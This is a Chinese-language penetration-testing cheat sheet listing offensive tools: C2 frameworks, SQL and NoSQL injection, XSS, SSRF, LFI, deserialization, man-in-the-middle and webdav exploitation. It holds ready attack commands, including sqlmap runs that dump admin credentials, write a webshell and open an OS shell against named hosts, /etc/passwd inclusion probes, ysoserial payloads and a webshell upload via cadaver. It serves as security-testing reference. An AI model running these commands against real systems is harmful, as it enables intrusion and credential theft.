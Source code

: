 漏洞利用
========================================

漏洞查询
----------------------------------------
- searchsploit
	+ ``更新：searchsploit -u`` 
	+ ``poc位置：linux/remote/13853.pl``
	+ ``下载：searchsploit -m php/webapps/7185.php`` 

C2服务器
----------------------------------------
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- `GRAT2 <https://github.com/r3nhat/GRAT2.git>`_
- `MeetC2 <https://github.com/CMatri/MeetC2>`_

web代理
----------------------------------------
- burpsuite
- Yakit
	+ 项目地址：``https://github.com/yaklang/yakit``
	+ Burpsuite 的年轻中国挑战者。

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
----------------------------------------
- `SQLMap <https://github.com/sqlmapproject/sqlmap>`_
	+ 默认选择不询问用户输入
		``--batch``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		``–privileges``
	+ 指定注入技术
		指定bool注入：``--technique B/T/E/U/S``，分别为布尔注入，时间盲注，报错注入，联合查询注入，堆查询注入
	+ POST注入
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`` 
	+ 读取与写入文件
		| 首先找需要网站的物理路径，其次需要有可写或可读权限.
		| –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
		| –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
		| –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
		| ``sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”``
	+ 执行命令
		``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
----------------------------------------
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
----------------------------------------
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
----------------------------------------
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
----------------------------------------
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
----------------------------------------
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
----------------------------------------
- `commix <https://github.com/commixproject/commix>`_

LFI
----------------------------------------
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

DNS 隧道
----------------------------------------
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
----------------------------------------
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
----------------------------------------
+ php序列化
	- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
+ java序列化工具
	- Ysomap
		+ 地址：``https://github.com/wh1t3p1g/ysomap``
		+ 帮助：``https://github.com/wh1t3p1g/ysomap/wiki/YSOMAP%E9%A3%9F%E7%94%A8%E6%8C%87%E5%8C%97``
	- java ysoserial：``https://github.com/frohoff/ysoserial``
	- JRE8u20 RCE Gadget：``https://github.com/pwntester/JRE8u20_RCE_Gadget``
	- Java Serialization Dumper：``https://github.com/NickstaDB/SerializationDumper``
	- gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications
+ c# .net序列化工具
	- `.net ysoserial <https://github.com/pwntester/ysoserial.net>`_
		::
		
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
			./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
			./ysoserial.exe -g ClaimsPrincipal -f BinaryFormatter -c foobar -bgc ActivitySurrogateDisableTypeCheck --minify --ust

中间人攻击
----------------------------------------
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

webdav利用
----------------------------------------
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``